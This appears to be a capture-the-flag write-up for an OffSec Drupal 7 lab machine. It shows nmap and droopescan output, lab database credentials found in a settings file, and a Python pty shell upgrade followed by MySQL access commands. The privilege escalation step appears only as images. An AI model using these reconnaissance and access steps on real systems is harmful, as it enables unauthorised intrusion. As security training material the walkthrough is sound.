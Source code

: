# Nmap Scan
```
nmap -sCV -p- -Pn 192.168.56.193 --open
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 11:46 EDT
Nmap scan report for 192.168.56.193
Host is up (0.00077s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35685/udp6  status
|   100024  1          40238/tcp   status
|   100024  1          56691/udp   status
|_  100024  1          58362/tcp6  status
40238/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.33 seconds

```

- Accessing the web page gives the details on Drupal - a free and open-source web content management system written in PHP

- For scanning the Drupal websites (Plugin based scanner) found called Droopescan

# Droopescan - Drupal website

```
 droopescan scan drupal -u http://192.168.240.193/ -t 32

[+] Plugins found:
    ctools http://192.168.240.193/sites/all/modules/ctools/
        http://192.168.240.193/sites/all/modules/ctools/LICENSE.txt
        http://192.168.240.193/sites/all/modules/ctools/API.txt
    views http://192.168.240.193/sites/all/modules/views/
        http://192.168.240.193/sites/all/modules/views/README.txt
        http://192.168.240.193/sites/all/modules/views/LICENSE.txt
    profile http://192.168.240.193/modules/profile/
    php http://192.168.240.193/modules/php/
    image http://192.168.240.193/modules/image/

[+] Themes found:
    seven http://192.168.240.193/themes/seven/
    garland http://192.168.240.193/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://192.168.240.193/user/login
```

# Finding Creds for Mysql
- using the metasploit with the 
- flag1 leads to coonfig file and also checked the flag4 in /etc/passwd it leads to root flag in root directory.

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6c9d2e75-2985-4858-8691-a3facec85183)

```
/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

/**

```
using these commands we can enter into interactive shell and able to access the my sql DB:
```
python -c 'import pty; pty.spawn("/bin/sh")'

mysql -u dbuser -p

use drupaldb;

show tables;
```
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/ca29fb45-e9cc-45a0-bd8a-972fe5d1f4b1)

# Priv Escalation

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/f67a11a3-7984-43e7-8b4a-38d76e698e68)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/22e2411e-81d6-4326-9bc6-1b09b23af472)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/ecb7e23a-c934-4e98-9677-a399745c1816)
